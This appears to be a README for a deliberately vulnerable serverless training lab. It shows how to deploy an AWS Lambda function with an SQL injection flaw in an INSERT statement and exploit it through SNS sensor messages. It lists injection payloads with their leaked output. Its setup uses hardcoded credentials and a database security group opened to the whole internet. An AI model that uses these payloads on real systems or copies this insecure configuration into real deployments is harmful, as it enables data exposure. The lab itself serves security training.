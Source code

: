 ## Function Event Data Injection - SQL Injection

In this damn vulnerable function, you will perform a SQL Injection attack through a SNS Notification Event.

While the attack vector is SQL Injection, the attack is typically called `Event Data Injection`, where vulnerabilities in a function are triggered by events from sources like:
* SNS Notifications
* Queue Message Notification
* S3 Event Notifications, etc

In this example, a sensor which is simulated by [payload_generator.py](mqtt_rds_sql_event_injection/payload_generator.py)
publishes messages to our Lambda Function. The function, collects this reading and stores this info in a Database.

The message is published as a JSON message with the `reading` key. Example: `{"reading": "40.0"}`
The reading is captured by the Lambda function and stored in a MySQL Database

Our objective is to exploit this event by triggering a vulnerability in the Lambda Function, in this case, a SQL Injection flaw

### Setup - Database
* Create an RDS Database instance in your AWS Account
```
    aws rds create-db-instance \
        --db-instance-identifier SensorDB \
        --db-instance-class db.t2.micro \
        --engine MySQL \
        --port 3306 \
        --allocated-storage 20 \
        --db-name sensordb \
        --master-username test \
        --master-user-password test123 \
        --db-subnet-group-name some-db-subnet \
        --publicly-accessible
```
**Sometimes you will need to create two subnets in different AZs and allocate them to the RDS Subnet group prior to this, for this to work**

* Get Security Group IDs

        aws rds describe-db-instances | jq ".DBInstances[].VpcSecurityGroups[].VpcSecurityGroupId"

* Add inbound rule to the security group

        aws ec2 authorize-security-group-ingress --group-id <group-id> --protocol all --port 3006 --cidr 0.0.0.0/0

* Get Database instance ID

        aws rds describe-db-instances | jq ".DBInstances[0].Endpoint.Address"

* Use MySQL Client (CLI) or some GUI to create the required tables, etc.

```
mysql -h <instance id> -P 3306 -u test -ptest123
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 14
Server version: 5.6.40-log Source distribution

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use sensordb
Database changed
mysql> CREATE TABLE sensor_temperature(id int NOT NULL AUTO_INCREMENT, sensor_name VARCHAR(100), temperature VARCHAR(200), PRIMARY KEY(id));
Query OK, 0 rows affected (0.60 sec)
```

### Setup - Lambda Function
* Goto `mqtt_rds_sql_event_injection\sqli\.chalice`
* Edit `config.json` to include the following:

```
"environment_variables": {
        "DB_HOST": "<instance id>",
        "DB_USER": "test",
        "DB_PASS": "test123",
        "DB_DB": "sensordb"
}
```
This will inject the required ENVVARs into the Lambda function at runtime

* go back to the `sqli` directory and run `chalice deploy`

### Solution

This is a slightly unconventional SQL Injection attack, in that, its triggered on an INSERT statement.

The SQLi can be triggered by tampering with the "reading" from the "sensor", you can trigger a SQL Injection attack on the INSERT Statement.

You can leverage mysql functions, global variables, etc for the attack

In the [payload_generator.py](mqtt_rds_sql_event_injection/payload_generator.py) file, you can change the reading with different SQL Injection payloads, like:
* `(SELECT @@datadir)`
* `(SELECT user())`
* `(SELECT CURRENT_USER())`
* `(SELECT DATABASE())`
* `(SELECT @@version)`
* `(SELECT ENCRYPT('password'))`

These will send SNS messages with the SQL Injection payloads, which our vulnerable function will read, process and insert into the Database.

if you run a `select * from sensor_temperature` on your mysql database, you will see output like this:

```
mysql> select * from sensor_temperature;
+----+--------------------------------------+-------------------------------------------------+
| id | sensor_name                          | temperature                                     |
+----+--------------------------------------+-------------------------------------------------+
|  1 | b2177d1c-8d5c-4f25-aa28-fde9f798ad36 | 5.6.40-log                                      |
|  2 | 39e00bb1-1ad5-42a0-b245-3e0cfd2a73ad | master@ec2-54-85-141-53.compute-1.amazonaws.com |
|  3 | 84f306bd-25e0-4703-a2ff-26c3aa7c56d3 | sensordb                                        |
|  4 | 854673c2-cff0-42ee-aa81-84a2b7203b59 | 6kPgJ56CFBaq6                                   |
+----+--------------------------------------+-------------------------------------------------+
4 rows in set (0.40 sec)
```